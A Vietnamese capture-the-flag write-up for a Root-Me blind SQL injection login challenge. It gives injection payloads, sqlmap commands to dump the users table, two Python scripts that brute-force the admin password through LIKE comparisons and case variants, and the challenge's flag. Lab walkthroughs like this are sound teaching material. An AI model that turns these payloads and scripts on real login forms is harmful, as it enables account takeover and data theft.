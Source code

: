 # SQL-Blind

Point: 50

Authentication v 0.02

Statement: Retrieve the administrator password.

# Overview:

![image](https://user-images.githubusercontent.com/115911041/234175477-7497d7e8-27d7-44b5-8711-6c8bcbdcc3cd.png)

Form của challenge cho ta trang web có chức năng login.Dự đoán query của bài này

`SELECT ... from ... where username=... and password = ...`

Vậy ta có thê khai thác lỗ hổng ở phần này. Mình sẽ thử fuzz thử ở phần login

`' admin or 1=1--`

![image](https://user-images.githubusercontent.com/115911041/234175844-4bd9a90b-f777-4b84-879f-65b3941f3cb3.png)

Có báo lỗi và ta thấy database bài này đang chạy SQLite3.Mình sẽ thử fuzz thêm nữa

`' or 1=1--`

![image](https://user-images.githubusercontent.com/115911041/234176024-6e5da0f2-79b1-47d9-a831-c735fd7d6983.png)

Adu mình vào được user1 nhưng mà hâu như trong đây không có gì đáng chú ý.

Vậy bài này ta có thể khai thác ở phần login. Challenge lần này là `Blind`. Ý tưởng là ta sẽ cắt các kí tự đầu của password rồi đem đi so sánh, nếu password đó trả về là "Welcome back Admin" thì nó sẽ là password đúng. Vậy ta có thể dùng toán tử [LIKE](https://laptrinhtudau.com/toan-tu-like-trong-sql/)  dựa trên idea đó. Hoặc dùng [SQLmap](https://github.com/sqlmapproject/sqlmap)

# Solution:

# 1ST

Bước đầu cần xác định số column

`admin' order by 2 --` hoặc ` 'order by 3--`

![image](https://user-images.githubusercontent.com/115911041/234177032-44fc97f6-2a26-417e-a452-8c9f3a922b7b.png)

Cái này mình rùa @@ sao vào được admin lunnnn!!!. Nhưng mà không có gì có ích mấy useless vcl. Nhưng kết quả cho ra, thì ta biết là có 2 column.

Bài này sử dụng phương thức POST để truyền truy vấn nên ta sẽ bắt bằng burpsuite.Tại request ta thấy ta truyền vào 2 payload là username và password. Ta sẽ sử dụng sqlmap để thực hiện khai thác bài này.

![image](https://user-images.githubusercontent.com/115911041/234178081-235ce51f-1136-41e7-83c6-e7e1a19e8361.png)

Trước hết copy phần request lưu vào 1 file, ở đây là file bind.txt. Sau đó mở sqlmap lên, tại đây là sử dụng `options -r` để đọc file. Nhớ cd vào file `sqlmap-dev` mới sử dụng được nhaaaa. Gõ lệnh:

`python3 sqlmap.py -r Blind.txt --dbs`

![image](https://user-images.githubusercontent.com/115911041/234183697-a8766aa4-da42-4672-8486-f1df3bff66f1.png)

Kết quả trả về cho ta thấy trang web bị lỗi time-based blind SQL injection. Không có database trả về, tuy nhiên nó gợi ý cho chúng ta khai thác luôn tên bảng. Ta gõ lệnh:

`python sqlmap.py -r Blind.txt --tables`

![image](https://user-images.githubusercontent.com/115911041/234186948-79de7789-1496-4ca9-b78c-67e5099e6117.png)

Kết quả trả về 1 bảng là users. Ta thực hiện dump toàn bộ dữ liệu trong bảng ra

`python sqlmap.py -r Blind.txt -T users --dump`

![image](https://user-images.githubusercontent.com/115911041/234194016-dc38c959-707d-4b56-9a4c-64477eec96fb.png)

Và ta đã có flag `e2azO93i`

# 2nd:

Và như mình đã nói ở trên các bạn có thể dùng toán tử LIKE để làm bài. Mình sẽ làm ở đây:
```
import sys
import requests
import string

URL='http://challenge01.root-me.org/web-serveur/ch10/'
character_list = string.printable
pw = ''
tmpPassword = ''

while (True):
    for char in character_list:
        tmpPassword = pw + char
        data = {
            'username':"admin' and password LIKE '"+ tmpPassword + "%'--",
            'password': 'asdasdasdasds'
        }
        http = requests.post(url = URL, data = data)
        if http.text.find('Welcome back admin !</h2><h3>Your informations :</h3><p>- username : admin</p><br />Hi master ! <b>To validate the challeng')!=-1:
            pw = tmpPassword
            print("Matched:",pw)
            break
    print("Finished!")
```

Sau đó mình có kết quả là `e2azo93i`. Nhưng lưu ý ở đây là LIKE không xác định được uppercase hay lowercase. Vậy thì ta brute force lại 1 lần nữa.Trong password có 5 kí tự thường vậy thì 2^5 = 32 trường hợp.

```
 # Step 2: Generate password

import sys
import requests
import string

URL='http://challenge01.root-me.org/web-serveur/ch10/'   

listPassword = []
strPassword = ''
for c1 in ['e', 'E']:
    for c3 in ['a', 'A']:
        for c4 in ['z', 'Z']:
            for c5 in ['o', 'O']:
                for c8 in ['i', 'I']:
                    strPassword = c1 + '2' + c3 + c4 + c5 + '93' + c8
                    listPassword.append(strPassword)
                    
print("### Start to attack ###")
for password in listPassword:
    data = {
        'username':"admin' and password='"+ password + "'--",
        'password': 'asdasdasdasds'
    }
    http = requests.post(url = URL, data = data)
    if http.text.find('Welcome back admin !</h2><h3>Your informations :</h3><p>- username : admin</p><br />Hi master ! <b>To validate the challeng')!=-1:
        print("Got it: ", password)
```

![image](https://user-images.githubusercontent.com/115911041/234212578-8eab86ff-6e9b-4406-96c0-baf95c81f17e.png)

Và ta đã ra được flag.

